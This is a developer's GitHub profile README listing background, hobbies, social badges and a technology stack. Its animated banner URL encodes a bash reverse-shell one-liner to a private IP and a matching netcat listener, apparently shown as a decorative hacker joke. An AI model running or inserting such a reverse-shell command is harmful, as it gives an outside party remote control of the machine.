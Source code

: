 [![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&duration=3000&pause=1000&width=435&lines=Hi+there!+%F0%9F%91%8B%F0%9F%8F%BB;bash+-i%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F123+0%3E%261;nc+-nlvp+123)](https://git.io/typing-svg)

Fourteen years of backend programming and software architecture experience under my belt. I usually create private repositories on Bitbucket, but I would like to engage in the open-source community on this platform.

---

### ⚡️ A quick introduction

- 🌱 I’m currently learning Golang. 
- 💼 I am open to working full-time for companies that follow best software development practices.
- 🤟🏻 I love learning new things until I achieve proficiency. Sometimes it's a sport (karate, climbing, dancing, powerlifting...), sometimes it's a hobby (miniature painting, Magic: The Gathering, riding on a circuit...), and at times, it's another IT path (cybersecurity, systems, DevOps...).
- 😝 Fun-Fact:The cat in my profile picture actually exists and is named Python.

---

### 🤝🏻 Connect, Follow, Subscribe

[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/p-gonzalez/)
[![codewars](https://img.shields.io/badge/Codewars-FF0000?style=for-the-badge&logo=codewars&logoColor=white)](https://www.codewars.com/users/zidk)
[![hackthebox](https://img.shields.io/badge/HackTheBox-0FF000?style=for-the-badge&logo=hackthebox&logoColor=white)](https://app.hackthebox.com/users/481623)

---

### 💻 Languages, Frameworks, Tools

<p float="left">
<img style="padding:5px;" align="center" alt="PHP" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/php/php.png"/>
<img style="padding:5px;" align="center" alt="LUA" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/lua/lua.png">
<img style="padding:5px;" align="center" alt="Python" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/python/python.png">
<img style="padding:5px;" align="center" alt="NodeJS" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/nodejs/nodejs.png"/>
<img style="padding:5px;" align="center" alt="JavaScript" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/javascript/javascript.png">
<img style="padding:5px;" align="center" alt="Golang" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/go/go.png">
<img style="padding:5px;" align="center" alt="Solidity" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/solidity/solidity.png">
<img style="padding:5px;" align="center" alt="MySQL" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/mysql/mysql.png">
<img style="padding:5px;" align="center" alt="PostgreSQL" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/postgresql/postgresql.png">
<img style="padding:5px;" align="center" alt="Mongodb" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/mongodb/mongodb.png">
<img style="padding:5px;" align="center" alt="REDIS" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/redis/redis.png">
<img style="padding:5px;" align="center" alt="Docker" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/docker/docker.png">
<img style="padding:5px;" align="center" alt="Kubernetes" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/kubernetes/kubernetes.png">
<img style="padding:5px;" align="center" alt="AWS" width="35px" src="https://raw.githubusercontent.com/github/explore/fbceb94436312b6dacde68d122a5b9c7d11f9524/topics/aws/aws.png">
<img style="padding:5px;" align="center" alt="Git" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/git/git.png">
<img style="padding:5px;" align="center" alt="nginx" width="35px" src="https://raw.githubusercontent.com/github/explore/01ea2a586e5da744792d0ccfce2f68b861f29301/topics/nginx/nginx.png">
<img style="padding:5px;" align="center" alt="Ubuntu" width="35px" src="https://raw.githubusercontent.com/github/explore/80688e429a7d4ef2fca1e82350fe8e3517d3494d/topics/ubuntu/ubuntu.png">
</p>


<!--
**zidk/zidk** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
